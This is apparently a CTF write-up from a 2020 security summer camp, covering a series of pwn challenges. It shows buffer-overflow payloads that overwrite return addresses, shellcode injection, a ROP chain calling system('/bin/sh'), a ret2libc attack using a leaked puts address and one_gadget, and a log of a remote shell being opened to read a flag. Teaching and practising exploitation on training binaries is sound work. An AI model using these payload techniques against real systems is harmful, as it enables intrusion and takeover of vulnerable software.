 # CyberSec summercamp 2020 
## pwn-ctf

## Challenges

### 張元Pwn-6 (50 pts)

First find the magic in binary file , then solve 1000 math questions with loop

Switch to interactive to `cat flag`

### 張元Pwn-7 (50 pts)

This challenge requires a little bit Reversing basic

#### stage1
We can see a simple `if` statement in function `stage1()`, as shown below:
    
    0x0040077d      8b45f4         mov eax, dword [var_ch]
    0x00400780      83e001         and eax, 1
    0x00400783      85c0           test eax, eax
    0x00400785      7434           je 0x4007bb
    0x00400787      8b45f4         mov eax, dword [var_ch]
    0x0040078a      2500001000     and eax, 0x100000
    0x0040078f      85c0           test eax, eax
    0x00400791      7428           je 0x4007bb
    0x00400793      8b45f4         mov eax, dword [var_ch]
    0x00400796      2500020000     and eax, 0x200              
    0x0040079b      85c0           test eax, eax
    0x0040079d      751c           jne 0x4007bb

we can try changing it into a C-like `if` statement:

`if ((var_ch & 1) != 0 && ((var_ch & 0x100000) != 0 && (var_ch & 0x200) == 0))`

base on this, we can write a keygen to crack `var_ch` in stage1

#### stage2

We can see it's trying to get three numbers from user input:

    0x00400810      e80bfeffff     call sym.imp.__isoc99_scanf
    0x00400815      8b45ec         mov eax, dword [var_14h]
    0x00400818      83f864         cmp eax, 0x64               
    0x0040081b      7530           jne 0x40084d
    0x0040081d      8b45f0         mov eax, dword [var_10h]
    0x00400820      3d00010000     cmp eax, 0x100              
    0x00400825      7526           jne 0x40084d
    0x00400827      8b45f4         mov eax, dword [var_ch]
    0x0040082a      3d0cb0cefa     cmp eax, 0xfaceb00c
    0x0040082f      751c           jne 0x40084d

based on the disassembly, we get three integers, 0x64, 0x100 and 0xfaceb00c


#### stage3

Again, the binary is comparing user input with a global varible

we can get the value of the varible(0x60107c) in the binary

send the numbers, and we get a shell

    [+] Opening connection to 139.110.112.192 on port 2117: Done
    [*] Switching to interactive mode
    Stage 2 completed
    Congrat! Here is your shell!
    $ cat flag
    BreakAllCTF{A_g-01d_h4cker_15_f4m1liar_w1th_b1n4ry_5ystem}

### 張元Pwn-8(50 pts)

From the assembly, we can see a shell function at `0x4006b6`

simply overwrite the return address as `0x4006b6`, we get a shell

### Angelboy Pwn-1(50 pts)

Same as the previous challenge, but this time the stack size is `0x20`

### Angelboy Pwn-2(50 pts)

Same as the previous challenge, but we're going to jump to our own shellcode instead of the given shell funvtion

we can write the shellcode in the `Name` varible(because the shellcode made by `shellcraft()` is only 44 bytes)


then we can overwrite the return pointer to jump to our shellcode(at `Name`)

### 張元 Pwn-1(100 pts)

This is an varible overwrite challenge

we can see that the  binary is trying to compare some varible to `0xfaceb00c` and `0xdeadbeef`

simply overwrite these two numbers by sending a payload like this:

`'A' *12 + p32(0xfaceb00c) + p32(0xdeadbeef)`

then we see that the program is comparing our input with a random number 

we can adjust our payload, to overwrite the random number to a known integer

in my exploit, my  paylaod is :

`'A' * 12 + p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x12345678)`

now we know the password(0x12345678), then we can pass it easily and get a shell

### 張元 Pwn-9(100 pts)

This challenge is similar to `Angelboy Pwn-2`, but the stack location is randomized

but the binary still gives us the `RSP`:

`Your address of input buffer is 0x7fff38a14c30`

now we get the RSP, we can try making a payload like this:

`asm(shellcraft.sh()) + 'A' * (0x70 + 8 - len(asm(shellcraft.sh()))) + p64(rsp)`

send the payload, and we get a shell

### 張元 Pwn-10(100 pts)

This is a simple ROP challenge

we can first put string `/bin/sh` in the first varible

then, we try to craft a payload to bypass NX

our payload will be like :

`(some padding) + (pop rdi) + "/bin/sh" address + system() address`

from the disassembly, we know that this binary contains `system()` function:

`0x004006bf      e86cfeffff     call sym.imp.system`

before we can call `system()`, we have to clean the `RDI` register

let's find some gadget using `ROPgadget`

`0x0000000000400773 : pop rdi ; ret`

our final payload looks like this:

`'A' * (48 + 8) + p64(0x0000000000400773) + p64(0x601070) + p64(0x004006bf)`

### Angelboy Pwn-3(100 pts)

This is a classic `return to libc` challenge

we're going to use a great tool called `one_gadget`, this way we won't have to craft a complicated payload by ourselves

our payload will be like:

`(some padding) + (the address that one_gadget give us)`

first, there is a memory leaking function in this program:

`Give me an address (in hex) :`

we can give the program the `got` address of `puts`

then it'll return a address, which is the address of `puts` in libc

we can get the target libc base address by doing `puts_addr - offset`

let's find the offset first(with readelf):

`404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5`

then use `one_gadget` to find the address to jump:

 `0x45216 execve("/bin/sh", rsp+0x30, environ)`


now we get the address, let's craft our payload:

`'A'* (0x110 + 8) + p64((libc_base + 0x45216))  


### other

TBD
